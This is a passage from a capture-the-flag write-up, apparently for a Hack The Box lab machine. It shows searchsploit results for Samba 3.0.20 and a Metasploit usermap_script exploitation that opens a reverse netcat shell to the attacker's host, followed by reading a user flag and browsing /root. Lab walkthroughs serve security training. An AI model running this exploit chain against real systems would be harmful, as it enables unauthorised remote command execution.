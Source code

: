 ```
...
```
This didn't yield any results, so going down the list of the first NMAP scan, we try exploits for Port 445 `netbios-ssn Samba smbd 3.0.20-Debian`.

## 4. Second attack on Port 445 Samba
We perform a searchsploit for Samba smbd 3.0.20-Debian with `searchsploit samba 3.0.20`.
```
hippoeug@kali:~$ searchsploit samba 3.0.20
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                              | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                    | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                               | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                                               | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                       | linux_x86/dos/36741.py
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```
There are a few interesting choices, but we are going for `Username map script Command Execution` Metasploit module.
Researching it, we find https://securitytrails.com/blog/nmap-vulnerability-scan.

Let's run the metasploit script `use exploit/multi/samba/usermap_script`.
```
hippoeug@kali:~$ msfconsole
msf6 > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf6 exploit(multi/samba/usermap_script) > show options
...
msf6 exploit(multi/samba/usermap_script) > set rhosts 10.129.137.142
rhosts => 10.129.137.142
msf6 exploit(multi/samba/usermap_script) > set lhost 10.10.x.x
lhost => 10.10.x.x
msf6 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.x.x:4444 
[*] Command shell session 1 opened (10.10.x.x:4444 -> 10.129.137.142:53572) at 2021-04-28 06:40:00 +0800

...

pwd
/home/makis
ls
user.txt
cat user.txt
6e66e5335b097cba8de6320509cd6c9e
pwd
/root
ls
Desktop
reset_logs.sh
```